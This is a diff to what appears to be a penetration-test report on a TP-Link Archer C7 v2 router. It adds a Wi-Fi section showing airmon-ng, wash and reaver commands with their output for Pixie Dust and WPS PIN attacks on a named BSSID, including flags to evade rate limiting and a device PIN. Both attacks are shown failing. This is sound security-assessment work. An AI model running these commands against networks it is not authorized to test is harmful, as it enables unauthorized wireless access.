

Add Wi-Fi WPS attacks.

Changed region(s): [[0.0, 0.0, 1.0, 1.0], [0.3738, 0.3627, 0.4984, 0.4231]]

diff --git a/tp-link-archer-c7-v2/pentest/3_technical-assessment/3_14_wifi.md b/tp-link-archer-c7-v2/pentest/3_technical-assessment/3_14_wifi.md
@@ -1,0 +1,233 @@
+# Wi-Fi Testing
+
+The router broadcasts two wireless networks, one on the 2.4GHz band and one on the 5GHz band. As identified during the [Web Interface Analysis](./3_10_web-interface.md), both networks use WPA/WPA2 Personal security with WPS enabled by default. This section documents the wireless security assessment performed against these networks.
+
+## WPS testing
+
+WPS (Wi-Fi Protected Setup) is a network security standard designed to 
+simplify the process of connecting devices to a wireless network. It 
+relies on an 8-digit PIN which, due to a known design flaw, can be 
+attacked in as few as 11,000 attempts rather than the 100,000,000 
+theoretically required. This flaw exists because the PIN is validated 
+in two halves independently, drastically reducing the search space.
+
+Additionally, certain WPS implementations are vulnerable to the Pixie 
+Dust attack, which exploits weak random number generation during the WPS 
+handshake to recover the PIN almost instantly without brute forcing.
+
+Since WPS was found to be enabled by default, two attacks were attempted:
+
+- **Pixie Dust attack**
+- **WPS PIN attack**
+
+The next sections detail the results obtained from the execution of these attacks.
+
+### Obtaining the BSSID
+
+Before executing either of the attacks mentioned above, the BSSID of the router's wireless network needs to be obtained. In order to do so, the Kali machine's wireless interface firstly needed to be identified and subsequently placed in monitor mode.
+
+#### Wireless interface identification
+
+To identify the wireless interface of the Kali machine, the `iwconfig` command was used, having produced the following output.
+
+```
+┌──(lucas㉿localhost)-[~]
+└─$ iwconfig
+lo        no wireless extensions.
+
+eth0      no wireless extensions.
+
+wlan0     IEEE 802.11  ESSID:[REDACTED] 
+          Mode:Managed  Frequency:2.417 GHz  Access Point: [REDACTED]  
+          Bit Rate=1 Mb/s   Tx-Power=22 dBm   
+          Retry short limit:7   RTS thr:off   Fragment thr:off
+          Power Management:on
+          Link Quality=58/70  Signal level=-52 dBm  
+          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
+          Tx excessive retries:0  Invalid misc:2   Missed beacon:0
+
+docker0   no wireless extensions.
+
+br-b56a5b292bb9  no wireless extensions.
+```
+
+The Kali machine's wireless interface was identified as being `wlan0`.
+
+#### Placing the wireless interface in monitor mode
+
+Firstly, potential trouble causing processes were killed with the following command.
+
+```
+┌──(lucas㉿localhost)-[~]
+└─$ sudo airmon-ng check kill 
+
+Killing these processes:
+
+    PID Name
+    932 wpa_supplicant
+```
+
+Next, the following command was used in order to place the `wlan0` wireless interface in monitor mode.
+
+```
+┌──(lucas㉿localhost)-[~]
+└─$ sudo airmon-ng start wlan0  
+
+
+PHY     Interface       Driver          Chipset
+
+phy0    wlan0           iwlwifi         Intel Corporation Wi-Fi 6 AX200 (rev 1a)
+                (mac80211 monitor mode vif enabled for [phy0]wlan0 on [phy0]wlan0mon)
+                (mac80211 station mode vif disabled for [phy0]wlan0)
+```
+
+As seen in the output, `wlan0` is renamed to `wlan0mon` when in monitor mode. A last `iwconfig` command was run at this point to confirm it.
+
+```
+┌──(lucas㉿localhost)-[~]
+└─$ iwconfig
+lo        no wireless extensions.
+
+eth0      no wireless extensions.
+
+docker0   no wireless extensions.
+
+br-b56a5b292bb9  no wireless extensions.
+
+wlan0mon  IEEE 802.11  Mode:Monitor  Frequency:2.457 GHz  
+          Retry short limit:7   RTS thr:off   Fragment thr:off
+          Power Management:on
+```
+
+Finally, WPS-enabled networks were scanned for via the `wash` command. 
+
+```
+┌──(lucas㉿localhost)-[~/embedded-device-pentesting]
+└─$ sudo wash -i wlan0mon                                                    
+BSSID               Ch  dBm  WPS  Lck  Vendor    ESSID
+--------------------------------------------------------------------------------
+...
+C4:6E:1F:AA:1E:56    1  -18  2.0  No   AtherosC  TP-LINK_1E56
+...
+```
+
+The router's WPS network was therefore identified, providing the required BSSID to execute the attacks (`C4:6E:1F:AA:1E:56`). Both attacks were executed using the `reaver`command line utility as detailed in the following sections.
+
+### Pixie Dust attack
+
+
+The Pixie Dust attack attempts to recover the WPS PIN by exploiting weak or non-random nonce values exchanged during the WPS handshake. If the target's WPS implementation uses predictable random number generation, the PIN can be recovered almost instantly without brute forcing. The `-K` flag in reaver enables this attack mode, as shown below.
+
+```
+┌──(lucas㉿localhost)-[~/embedded-device-pentesting]
+└─$ sudo reaver -i wlan0mon -b C4:6E:1F:AA:1E:56 -vv -K
+
+Reaver v1.6.6 WiFi Protected Setup Attack Tool
+Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>
+
+[+] Waiting for beacon from C4:6E:1F:AA:1E:56
+[+] Switching wlan0mon to channel 1
+[+] Received beacon from C4:6E:1F:AA:1E:56
+[+] Vendor: AtherosC
+[+] Trying pin "12345670"
+[+] Sending authentication request
+[+] Sending association request
+[+] Associated with C4:6E:1F:AA:1E:56 (ESSID: TP-LINK_1E56)
+[+] Sending EAPOL START request
+[+] Received identity request
+[+] Sending identity response
+[+] Received identity request
+[+] Sending identity response
+[+] Received identity request
+[+] Sending identity response
+[+] Received deauth request
+[!] WARNING: Receive timeout occurred
+[+] Sending WSC NACK
+[!] WPS transaction failed (code: 0x02), re-trying last pin
+```
+
+The attack was unsuccessful. The router sent a deauthentication request during the WPS exchange before the handshake could complete, resulting in a timeout. This suggests the router implements a rate limiting or lockout mechanism for WPS authentication attempts, preventing the Pixie Dust attack from completing.
+
+### WPS PIN attack
+
+The WPS PIN attack attempts to authenticate to the network using a known or brute-forced WPS PIN. Unlike the Pixie Dust attack which exploits cryptographic weaknesses, this attack relies on submitting the correct PIN directly. Although the PIN could not be found via the Pixie Dust attack, it was obtained from the Wireless Security section, previously discussed in the [Web Interface Analysis](./3_10_web-interface.md), and was used directly here. The used command and obtained output for this attack is shown below.
+
+```
+┌──(lucas㉿localhost)-[~]
+└─$ sudo reaver -i wlan0mon -b C4:6E:1F:AA:1E:56 -vv -p 32901528 -d 5 -r 3:15
+
+Reaver v1.6.6 WiFi Protected Setup Attack Tool
+Copyright (c) 2011, Tactical Network Solutions, Craig Heffner <cheffner@tacnetsol.com>
+
+[+] Waiting for beacon from C4:6E:1F:AA:1E:56
+[+] Switching wlan0mon to channel 1
+[+] Received beacon from C4:6E:1F:AA:1E:56
+[+] Vendor: AtherosC
+[+] Trying pin "32901528"
+[+] Sending authentication request
+[+] Sending association request
+[+] Associated with C4:6E:1F:AA:1E:56 (ESSID: TP-LINK_1E56)
+[+] Sending EAPOL START request
+[+] Received identity request
+[+] Sending identity response
+[+] Received identity request
+[+] Sending identity response
+[+] Received identity request
+[+] Sending identity response
+[+] Received identity request
+[+] Sending identity response
+[+] Received deauth request
+[!] WARNING: Receive timeout occurred
+[+] Sending WSC NACK
+[!] WPS transaction failed (code: 0x02), re-trying last pin
+```
+
+The attack was again unsuccessful due to the same rate limiting behaviour. The router deauthenticated the client before the WPS exchange could complete. PIN retries were also unsuccessful. The `-d 5` (sets a 5 second delay between PIN attempts) and `-r 3:15` (sets a rate limit of 3 attempts per 15 seconds) flags were used to introduce delays between attempts in order to circumvent rate limiting, however this was insufficient to complete the exchange.
+
+### Cleaning up
+
+Once the attacks were executed, the previously killed processes were restored.
+
+```
+┌──(lucas㉿localhost)-[~]
+└─$ sudo systemctl restart NetworkManager.service                            
+        
+┌──(lucas㉿localhost)-[~]
+└─$ sudo systemctl restart wpa_supplicant.service
+```
+
+Additionaly, the Kali machine's wireless interface was set back to its default state.
+
+```
+┌──(lucas㉿localhost)-[~]
+└─$ sudo airmon-ng stop wlan0mon                 
+
+PHY     Interface       Driver          Chipset
+
+phy0    wlan0mon        iwlwifi         Intel Corporation Wi-Fi 6 AX200 (rev 1a)
+                (mac80211 station mode vif enabled on [phy0]wlan0)
+                (mac80211 monitor mode vif disabled for [phy0]wlan0mon)
+```
+
+A final confirmation that all was back to normal was obtained via the `iwconfig` command.
+
+```
+┌──(lucas㉿localhost)-[~]
+└─$ iwconfig
+lo        no wireless extensions.
+
+eth0      no wireless extensions.
+
+docker0   no wireless extensions.
+
+br-b56a5b292bb9  no wireless extensions.
+
+wlan0     IEEE 802.11  ESSID: [REDACTED] 
+          Mode:Managed  Frequency:5.54 GHz  Access Point: [REDACTED]   
+          Bit Rate=1 Mb/s   Tx-Power=22 dBm   
+          Retry short limit:7   RTS thr:off   Fragment thr:off
+          Power Management:on
+          Link Quality=57/70  Signal level=-53 dBm  
+          Rx invalid nwid:0  Rx invalid crypt:0  Rx invalid frag:0
+          Tx excessive retries:0  Invalid misc:7   Missed beacon:0
+```

diff --git a/tp-link-archer-c7-v2/pentest/3_technical-assessment/3_10_web-interface.md b/tp-link-archer-c7-v2/pentest/3_technical-assessment/3_10_web-interface.md
@@ -87,16 +87,16 @@ The use of a common hardcoded encryption key across all devices of this product 
 
 ## Wireless security
 
-Analysis of both the `Wireless 2.4GHz` and `Wireless 5GHz` menus, revealed that both wireless networks had WPS enabled, using WPA/WPA2 Personal security by default, as shown below. The WPS PIN has been redacted from the images.
+Analysis of both the `Wireless 2.4GHz` and `Wireless 5GHz` menus, revealed that both wireless networks had WPS enabled, using WPA/WPA2 Personal security by default, as shown below.
 
 <p align="center">
-  <img src="../../img/WEB_UI-2_4_wirelessSecurity.png" width="42.8%" style="margin-right: 20px;"/>
+  <img src="../../img/WEB_UI-2_4_wirelessSecurity.png" width="44%" style="margin-right: 20px;"/>
   <img src="../../img/WEB_UI-2_4_WPS.png" width="45%" />
 </p>
 
-WPS (Wi-Fi Protected Setup) is a network security standard designed to simplify the process of connecting devices to a wireless network. It relies on an 8-digit PIN which, due to a known design flaw, can be attacked in as few as 11,000 attempts rather than the 100,000,000 theoretically required. Additionally, certain WPS implementations are vulnerable to the Pixie Dust attack, which can recover the PIN almost instantly by exploiting weak random number generation during the WPS handshake.
+WPS (Wi-Fi Protected Setup) is a network security standard designed to simplify the process of connecting devices to a wireless network. It relies on an 8-digit PIN which, due to a known design flaw, can be attacked in fewer attempts than theoretically required. Additionally, certain WPS implementations are vulnerable to the Pixie Dust attack, which can recover the PIN almost instantly by exploiting weak random number generation during the WPS handshake.
 
-Both attacks were attempted and are documented in detail in the [Wi-Fi Testing](./3_12_wifi.md) section. The WPS PIN itself was additionally found exposed in plaintext within the decrypted configuration backup, as detailed in the previous section.
+Both attacks were attempted and are documented in detail in the [Wi-Fi Testing](./3_14_wifi.md) section. The WPS PIN itself was additionally found exposed in plaintext within the decrypted configuration backup, as detailed in the previous section.
 
 ## Remote Management
 
@@ -148,7 +148,7 @@ The USB Settings menu contains three submenus:
 - Folder Sharing
 - Print Server
 
-These three collectively manage the router's Network Attached Storage (NAS) functionality when a USB storage device is connected to it. Their analysis revealed several security observations:
+These three collectively manage the router's Network Attached Storage (NAS) functionality when a USB storage device is connected to it. Their analysis revealed several security observations, mentioned in the following sections. Further tests regarding the physical USB interface of the router are presented in the [USB Testing](./3_12_usb.md) section.
 
 ### Disk Settings
 

diff --git a/tp-link-archer-c7-v2/pentest/3_technical-assessment/3_05_boot-and-runtime-analysis.md b/tp-link-archer-c7-v2/pentest/3_technical-assessment/3_05_boot-and-runtime-analysis.md
@@ -1,6 +1,6 @@
 # Boot and Runtime Analysis
 
-This section documents observations made after gaining access to the device’s serial console subsequently to [UART Interface Discovery](./3_04_debug-interface-uart.md). 
+This section documents observations made after gaining access to the device’s serial console subsequently to [UART Interface Discovery](./3_04_uart.md). 
 
 The goal of this phase was to analyze the boot process, observe bootloader behavior, and assess runtime console access once the system had fully initialized.
 
